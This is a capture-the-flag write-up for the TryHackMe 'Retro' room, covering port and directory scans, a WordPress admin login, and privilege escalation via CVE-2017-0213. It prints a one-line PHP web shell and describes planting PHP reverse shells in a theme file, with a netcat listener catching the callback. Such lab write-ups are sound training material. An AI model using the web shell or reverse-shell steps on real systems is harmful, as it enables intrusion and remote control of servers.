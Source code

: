 # Retro Writeup

https://tryhackme.com/room/retro

## Task 1 Pwn

I started out with a simple nmap scan to check out ports, services, and versions.
```
nmap -sC -sV -oA nmap/common 10.10.119.28
```
```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2021-07-26T18:12:10+00:00
```
So I knew we were dealing with a windows machine running an IIS webserver and remote desktop protocol enabled. Then I went to enumerate the web server. First I hit it with fuzzing using gobuster.
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.204.15
```
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.204.15
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/01 15:15:21 Starting gobuster in directory enumeration mode
===============================================================
/retro                (Status: 301) [Size: 149] [--> http://10.10.204.15/retro/]
```
This gives us the answer to our first question.

From here I poked around the blog page a bit to gather more information. Doing the prequel box, Blaster, before this one helps tremendously as they are very similiar in the initial exploitation phase. We come across a potential username or password in an early blog post.

![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/blogpost.PNG?raw=true)

I decided to fuzz for more directories within /retro. I quickly see that this is a wordpress site with all the wp directories.
```
# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.204.15/retro
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.204.15/retro
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/01 15:22:41 Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 160] [--> http://10.10.204.15/retro/wp-content/]
/wp-includes          (Status: 301) [Size: 161] [--> http://10.10.204.15/retro/wp-includes/
```

So I navigated to `http://10.10.204.15/retro/wp-login.php` to try out these possible credentials. I created a not-so-quick python script to brute force passwords with the username parzival.

I'm not gonna lie this took me WAAY to long to figure out, but parzival is actually the password and wade is the username. After that we are into the wp-admin page.

From prior experience with exploiting wordpress sites I knew I could possibly upload a php reverse shell so I went right to 'Theme Editor' and copied and pasted Pentestmonkey's reverse shell into 'archive.php'. Then I navigated to the location of archives.php in the browser to run the code.

![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/phppentestmonkey.PNG?raw=true)

Obviously this DOES NOT WORK because the webserver is running on windows not linux.
```
└─# nc -lvnp 4444                                                                      1 ⚙
listening on [any] 4444 ...
connect to [10.6.14.57] from (UNKNOWN) [10.10.204.15] 49891
'uname' is not recognized as an internal or external command,
operable program or batch file.
```

So I swap this shell out with this simple php web shell to see if we can even get RCE. `<?php system($_GET["cmd"]);?>`
Then I navigate back to the location of the archive.php and pass in a parameter for 'cmd'.
![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/webshell.PNG?raw=true)

Great! Now that I know we have RCE I can try a full reverse shell. I got mine from [here](https://github.com/Dhayalanb/windows-php-reverse-shell). I just had to change the ip and port. Then make the tmpdir = "C:\\inetpub\\wwwroot\\retro\\wp-content\\themes\\90s-retro". 
* Copy and paste it into archive.php
* Scroll down and click 'Upload File'
* Then set up a netcat listener in a terminal
* Navigate to archive.php in the browser just like before.

![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/reverseshell.PNG?raw=true)

After this I remembered that RDP was enabled and just for the hell of it I tried the same credentials from earlier. SURPRISE they work for RDP. This is better than our shell because we have a real account instead of a service account. We can find user.txt at C:\Users\Wade\Desktop\user.txt


After enumerating with windows-exploit-suggester.py I tried a few different CVEs for priviledge escalation but no success. The exploit I had success with was [CVE-2017-0213](https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213). The CVE is extremely simple to use. You just get the exe file onto the victim  and run it. It will then open up a shell running as SYSTEM.

![alt text](https://github.com/nickswink/Retro-WriteUp/blob/main/root.PNG?raw=true)

Then we can read root.txt at C:\Users\Administrator\Desktop\root.txt.txt

